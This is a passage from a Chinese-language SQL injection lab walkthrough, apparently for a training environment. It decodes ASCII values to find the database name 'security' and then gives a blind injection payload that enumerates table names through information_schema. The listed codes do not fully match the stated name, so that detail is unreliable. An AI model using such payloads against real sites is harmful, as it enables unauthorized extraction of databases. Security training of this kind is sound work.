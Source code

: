 #### 筛选成功关键词 you are in，对payload1进行排序

![image-20250903190258495](images/image-20250903190258495.png)

```
可以得知分别得知每一位的码，解析得知是115 101 99 117 114 105  126 121  
```

#### 对照ascii表得知数据库的名称为 security

------

## 🔎 第三步：枚举表名

拿 `information_schema.tables`：

```
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=5 --+
```

![image-20250904015436610](images/image-20250904015436610.png)
